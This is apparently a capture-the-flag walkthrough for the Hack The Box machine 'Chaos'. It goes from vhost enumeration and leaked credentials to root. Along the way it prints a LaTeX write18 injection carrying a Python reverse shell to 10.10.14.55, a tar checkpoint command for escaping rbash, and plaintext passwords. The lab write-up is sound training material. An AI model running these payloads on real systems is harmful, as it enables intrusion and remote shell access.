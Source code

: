 ![](./logo.png)

# USER

Website does not allow ```Direct IP```?
By adding the ip to the host file we're able to access the webpage. This is through **virtual host routing**

GoBuster
```
10.10.10.120
    /wp
    /javascript

chaos.htb
    /img
    /css
    /source
    /js
    /javascript
    /server-status
 ```

By typing ``human`` into the /wp end point we get creds. This is due to ```human``` being the poster

```
ayush
jiujitsu
```

By changing the virutal host to ```webmail.chaos.htb``` we can find a webmail login. This allows a login using the creds

An email is present in the drafts

```
Hii, sahay
Check the enmsg.txt
You are the password XD.
Also attached the script which i used to encrypt.
Thanks,
Ayush
```

Contains two files. They can be found in the ```./Encryption``` directory

After a decode we get this message:
```
Hii Sahay

Please check our new service which create pdf

p.s - As you told me to encrypt important msg, i did :)

http://chaos.htb/J00_w1ll_f1Nd_n07H1n9_H3r3

Thanks,
Ayush
```

The endpoint is a PDF creator that uses LaTeX. After a quick search I was able to find a payload for LaTeX:
```
\immediate\write18{python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.55",6868));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  | base64 > test.txt}
\newread\file
\openin\file=test.txt
\loop\unless\ifeof\file
    \read\file to\fileline
    \text{\fileline}
\repeat
\closein\file
```

We spawn as a www-data user. Using the password for ayush ealier we can log onto his account.

We are entered into an ```rbash``` session

Note: Echo can be used in place of ls

```
echo /<dir>/*
```

Using tar we can escape our shell
```
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```


Fixes issues with commands not being found
```
export PATH=/usr/bin:/bin:/usr/sbin:/sbin:/usr/local/bin
```

# ROOT

By loading in a .mozilla profile we can get saved
passwords. This can be achieved using the profile manager

```
root
Thiv8wrej~
```

This lets us logon as root and obtain the root.txt

